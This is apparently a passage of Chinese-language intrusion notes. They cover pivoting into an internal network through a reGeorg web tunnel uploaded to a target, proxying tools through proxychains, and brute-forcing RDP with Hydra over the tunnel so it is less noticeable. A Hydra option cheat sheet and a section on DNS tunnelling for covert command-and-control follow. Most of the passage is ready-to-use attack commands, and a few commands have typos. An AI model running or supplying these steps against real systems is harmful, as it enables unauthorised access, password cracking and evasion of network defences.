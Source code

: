 ```bash
#1.先把脚本文件上传到目标服务器中，然后远程访问内网网站的某脚本文件
#2.在vps上使用reGeorgSocksProxy.py 脚本来连接
python reGeorgSocksProxy.py -u http://1.1.1.1.2/tunnel.aspx -p 9999  # 本机9999端口已经开始监听了

#3.配置ProxyChains，设置全局代理
vim /etc/proxychains.conf
dynamic_chain
socks4 127.0.0.1 9999 # 设置代理端口

#4.测试代理是否正常
proxyesolv www.baidu.com    

#5.使用proxychains打开应(通过隧道进行通信)
proxychains firefox

#6.就可以使用Hydra进行暴力破解rdp(使用http隧道，不会太明显)
hydra 1.1.1.2 rdp -l administrator -P /root/pass.txt

```

Hydra 暴力破解密码(支持很多协议)
```bash
-R    # 根据上一次进度继续破解
-S    # 使用SSL协议连接
-s    # 指定端口
-l    # 指定用户名
-L    # 指定用户名字典(文件)
-p    # 指定密码破解
-P    # 制定密码字典(文件)
-t    # 指定多线程数量，默认为16个线程
-vV   # 显示详细过程
```


#### 3.DNS协议(重点)
虽然激增的DNS流量可能会被发现，但基于传统的Socket隧道已经濒临淘汰以及TCP、UDP通信大量被防御系统拦截的状况，
DNS、ICMP、HTTP/HTTPS等难以被禁用的协议已经成为i攻击者控制隧道的主要渠道
DNS是一个不可缺少的服务；另一个方面，DNS报文具有穿透防火墙的能力；也由于防火墙和IDS等大都不会过滤DNS流量，
也为DNS成为隐蔽信道创造了条件

C&C(Command and Control Server, 命令控制服务器) -- 用来管理僵尸网络和进行APT攻击的服务器
分为：C&C服务端，C&C客户端
由于安全厂商各种措施阻断了C&C通信，通过各种隧道技术实现C&C通信的技术(特别是DNS隧道技术)出现了

DNS隧道原理：
```bash
DNS查询的域名不存在，会去外网DNS服务器进行查询。如果互联网上有一台定制的服务器，依靠DNS协议即可进行数据包的交换。
在使用DNS隧道与外部进行通信时，从表面看是没有连接外网的(内网网关没有进行转发数据包)，但实际上，内网的DNS服务器进行了中专操作。
就是将其他协议封装在DNS协议中进行传输。
```


查看DNS的联通性
```bash
# 查询当前内部域名和IP地址
cat /etc/resolve.conf |grep -v '#'

# 查看能否与内部DNS通信意味着可以使用DNS隧道
nslookup    hacker.testlab

# 查看能否通过DNS服务器解析外部域名(如果可以，就意味着可以使用DNS隧道实现隐蔽通信)
nslookup    baidu.com
```
